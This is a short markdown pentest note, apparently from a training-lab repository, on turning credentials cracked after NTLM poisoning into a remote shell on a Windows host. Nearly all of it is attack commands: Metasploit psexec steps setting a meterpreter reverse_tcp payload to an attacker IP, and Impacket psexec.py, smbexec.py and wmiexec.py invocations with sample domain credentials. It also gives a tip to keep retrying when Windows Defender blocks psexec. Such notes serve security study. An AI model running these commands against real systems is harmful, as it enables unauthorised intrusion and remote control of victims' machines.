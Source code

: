 
+ Once we cracked the credential we got after ntlm poisoning attack, we can use that credential information to gain a shell in the victim machine.
### Metasploit

```sh
$ msfconsole
~ search psexec
~ use windows/exploit/smb/psexec
# Other module to try
# use windows/exploit/smb/psexec_psh
~ show options
# set all options which we know
~ set rhosts <target ip>
~ set smbdomain <target domain: marvel.local>
~ set smbpass <cracked password>
~ set smbuser <username>
~ show options
~ set payload windows/x64/meterpreter/reverse_tcp
~ show options
~ set lhost <attacker IP>
~ set lport <listener port>
~ run
# may have to try multiple attempts
# try change the targets 

# psexec is now being detected and blocked by windows defender, but just give it a try several times.
```

### PSEXEC Script

Order to attack
Traffic level below
smbexec<wmiexec<psexec.
```sh
$ psexec.py <domain.address/username:crackedpassword@VictimIPAddress : marvel.local/fcastle:Password1@192.168.57.141>
# Pop a shell !!

# Also try other scripts
$ smbexec.py <domain.address/username:crackedpassword@VictimIPAddress : marvel.local/fcastle:Password1@192.168.57.141>

$ wmiexec.py <domain.address/username:crackedpassword@VictimIPAddress : marvel.local/fcastle:Password1@192.168.57.141>
```